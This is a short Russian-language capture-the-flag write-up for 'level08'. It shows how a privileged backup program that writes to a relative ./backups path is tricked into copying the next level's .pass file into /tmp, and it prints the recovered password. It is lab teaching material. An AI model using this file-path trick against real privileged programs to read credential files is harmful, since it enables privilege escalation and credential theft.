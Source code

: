 ```
$> ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
```
Как мы видим, программа принимает какой-то файл своим аргументом.  
Попробуем передать .pass файл:
```
$> ./level08 ~level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Как можно заметить, программа пытается открыть ```./backups//home/users/level09/.pass``` файл.  
Попробуем создать этот путь в ```/tmp```.

```
$> cd /tmp
$> mkdir -p ./backups//home/users/level09/
```
Пробуем запустить программу: 
```
$> ~/level08 ~/level09/.pass

$> cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```